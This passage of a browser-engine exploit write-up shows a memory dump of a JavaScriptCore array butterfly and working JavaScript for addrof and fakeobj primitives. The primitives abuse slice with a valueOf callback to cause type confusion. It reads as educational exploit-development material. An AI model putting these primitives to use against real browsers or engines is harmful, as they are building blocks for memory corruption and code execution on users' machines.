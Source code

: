 Here is how a butterfly is represented in memory:
```shell
pwndbg> x/16gx 0x7fffadde4108
0x7fffadde4108: 0x41ecd5b7dde00000      0x3fc21d14e3bcd35b
0x7fffadde4118: 0x00007fffadf94360      0x0000000000000007
0x7fffadde4128: 0x00007fffadffc1e0      0x00000000badbeef0
0x7fffadde4138: 0x00000000badbeef0      0x00000000badbeef0
```


## Exploit Strategy

- First, we start with writing our exploit primitives addrof and fakeobj.
- For addrof, We make use of an array of doubles, which will have its indexing type as ArrayWithDoubles. and use the valueof function to shrink the array, allocate an array with the object, and return a size larger than the array size which will access the object. slice preserves the indexing type, and the data we access is treated as native doubles which gives us JSValue leak which is in the form of 64bit Floating point value. fakeobj follows a similar approach but the other way around.


- addrof primitive

```javascript
function addrof(object) {
  var a = [];
  for (var i = 0; i < 100; i++) a.push(i + 0.123);
  var b = a.slice(0, {
    valueOf: function () {
      a.length = 0;
      b = [object];
      return 5;
    },
  });
  return Int64.fromDouble(b[4]);
}
```

- fakeobj primitive

````javascript
  function fakeobj(addr) {
    var a = [];
    for (var i = 0; i < 100; i++) a.push({});
    var b = a.slice(0, {
      valueOf: function () {
        a.length = 0;
        b = [addr.asDouble()];
        return 5;
      },
    });
    return b[4];
  } ```

  ````
